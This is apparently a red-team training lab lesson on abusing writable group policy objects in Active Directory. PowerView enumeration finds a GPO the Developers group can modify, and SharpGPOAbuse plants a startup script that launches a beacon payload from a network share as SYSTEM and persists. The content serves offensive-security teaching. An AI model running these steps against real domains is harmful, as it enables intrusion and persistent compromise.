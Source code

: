 Modifying an existing GPO that is already applied to one or more OUs is the most straightforward scenario.  To search for these, we need to enumerate all GPOs in the domain with `Get-DomainGPO` and check the ACL of each one with `Get-DomainObjectAcl`.  We want to filter any for which a principal has modify privileges such as CreateChild, WriteProperty or GenericWrite, and also want to filter out the legitimate principals including SYSTEM, Domain Admins and Enterprise Admins.
```
beacon> powershell Get-DomainGPO | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "CreateChild|WriteProperty" -and $_.SecurityIdentifier -match "S-1-5-21-569305411-121244042-2357301523-[\d]{4,10}" }

AceType               : AccessAllowed
ObjectDN              : CN={5059FAC1-5E94-4361-95D3-3BB235A23928},CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io
ActiveDirectoryRights : CreateChild, DeleteChild, ReadProperty, WriteProperty, GenericExecute
OpaqueLength          : 0
ObjectSID             : 
InheritanceFlags      : ContainerInherit
BinaryLength          : 36
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-569305411-121244042-2357301523-1107
AccessMask            : 131127
AuditFlags            : None
AceFlags              : ContainerInherit
AceQualifier          : AccessAllowed
```
  

One result has been returned.  Let's resolve the GPO name and the SID of the principal.
```
beacon> powershell Get-DomainGPO -Identity "CN={5059FAC1-5E94-4361-95D3-3BB235A23928},CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io" | select displayName, gpcFileSysPath

displayname    gpcfilesyspath                                                                              
-----------    --------------                                                                              
Vulnerable GPO \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{5059FAC1-5E94-4361-95D3-3BB235A23928}

beacon> powershell ConvertFrom-SID S-1-5-21-569305411-121244042-2357301523-1107
DEV\Developers
```

This shows us that members of the "Developers" group can modify "Vulnerable GPO".

We also want to know which OU(s) this GPO applies to, and by extension which computers are in those OUs.  GPOs are linked to an OU by modifying the `gPLink` property of the OU itself.  The `Get-DomainOU` cmdlet has a handy `-GPLink` parameter which takes a GPO GUID.
```
beacon> powershell Get-DomainOU -GPLink "{5059FAC1-5E94-4361-95D3-3BB235A23928}" | select distinguishedName

distinguishedname                         
-----------------                         
OU=Workstations,DC=dev,DC=cyberbotic,DC=io
```
  

Finally, to get the computers in an OU, we can use `Get-DomainComputer` and use the OU's distinguished name as a search base.
```
beacon> powershell Get-DomainComputer -SearchBase "OU=Workstations,DC=dev,DC=cyberbotic,DC=io" | select dnsHostName

dnshostname              
-----------              
wkstn-1.dev.cyberbotic.io
wkstn-2.dev.cyberbotic.io
```
  

To modify a GPO without the use of GPMC (Group Policy Management Console), we can modify the associated files directly in SYSVOL (the gpcFileSysPath).

```
beacon> ls \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{5059FAC1-5E94-4361-95D3-3BB235A23928}

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     09/07/2022 12:40:22   Machine
          dir     09/07/2022 12:40:22   User
 59b      fil     09/07/2022 12:40:22   GPT.INI
```
  

We can do that manually or use an automated tool such as [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse), which has several abuses built into it.

Here's an example using a Computer Startup Script.  It will put a startup script in SYSVOL that will be executed each time an effected computer starts (which incidentally also acts as a good persistence mechanism).
```
beacon> execute-assembly C:\Tools\SharpGPOAbuse\SharpGPOAbuse\bin\Release\SharpGPOAbuse.exe --AddComputerScript --ScriptName startup.bat --ScriptContents "start /b \\dc-2\software\dns_x64.exe" --GPOName "Vulnerable GPO"

[+] Domain = dev.cyberbotic.io
[+] Domain Controller = dc-2.dev.cyberbotic.io
[+] Distinguished Name = CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io
[+] GUID of "Vulnerable GPO" is: {5059FAC1-5E94-4361-95D3-3BB235A23928}
[+] Creating new startup script...
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new startup script. Wait for the GPO refresh cycle.
[+] Done!
 ```

  Note that you can find this `software` share using PowerView:  
  
```
beacon> powershell Find-DomainShare -CheckShareAccess

Name           Type Remark              ComputerName
----           ---- ------              ------------
software          0                     dc-2.dev.cyberbotic.io
```
  
It can go in any remote location as long as it's accessible by the target computer(s)

  

Log into the console of Workstation 1 and run `gpupdate /force` from a Command Prompt.  Then reboot the machine.  After it starts up, the DNS Beacon will execute as SYSTEM.

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/afd/f74/129/beacons.png)

  

SharpGPOAbuse has other functions such as adding an immediate scheduled task that you may experiment with.